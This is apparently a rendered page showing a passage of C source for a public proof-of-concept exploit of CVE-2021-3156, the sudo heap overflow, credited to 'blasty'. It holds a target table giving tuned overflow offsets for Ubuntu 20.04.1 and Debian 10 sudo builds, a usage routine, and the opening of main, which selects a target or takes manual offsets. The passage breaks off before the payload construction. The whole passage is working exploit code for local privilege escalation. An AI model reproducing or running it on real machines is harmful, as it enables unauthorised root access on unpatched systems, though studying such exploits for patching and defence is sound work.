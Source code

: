 ```bash
        .target_name    = "Ubuntu 20.04.1 (Focal Fossa) - sudo 1.8.31, libc-2.31",
        .sudoedit_path  = SUDOEDIT_PATH,
        .smash_len_a    = 56,
        .smash_len_b    = 54,
        .null_stomp_len = 63, 
        .lc_all_len     = 212
    },
    {
        .target_name    = "Debian 10.0 (Buster) - sudo 1.8.27, libc-2.28",
        .sudoedit_path  = SUDOEDIT_PATH,
        .smash_len_a    = 64,
        .smash_len_b    = 49,
        .null_stomp_len = 60, 
        .lc_all_len     = 214
    }
};

void usage(char *prog) {
    fprintf(stdout,
        "  usage: %s <target>\n\n"
        "  available targets:\n"
        "  ------------------------------------------------------------\n",
        prog
    );
    for(int i = 0; i < sizeof(targets) / sizeof(target_t); i++) {
        printf("    %d) %s\n", i, targets[i].target_name);
    }
    fprintf(stdout,
        "  ------------------------------------------------------------\n"
        "\n"
        "  manual mode:\n"
        "    %s <smash_len_a> <smash_len_b> <null_stomp_len> <lc_all_len>\n"
        "\n",
        prog
    );
}

int main(int argc, char *argv[]) {
    printf("\n** CVE-2021-3156 PoC by blasty <peter@haxx.in>\n\n");

    if (argc != 2 && argc != 5) {
        usage(argv[0]);
        return -1;
    }

    target_t *target = NULL;
    if (argc == 2) {
        int target_idx = atoi(argv[1]);

        if (target_idx < 0 || target_idx >= (sizeof(targets) / sizeof(target_t))) {
            fprintf(stderr, "invalid target index\n");
            return -1;
        }

        target = &targets[ target_idx ];
    }  else {
        target = malloc(sizeof(target_t));
        target->target_name    = "Manual";
        target->sudoedit_path  = SUDOEDIT_PATH;
        target->smash_len_a    = atoi(argv[1]);
        target->smash_len_b    = atoi(argv[2]);
        target->null_stomp_len = atoi(argv[3]);
        target->lc_all_len     = atoi(argv[4]);
```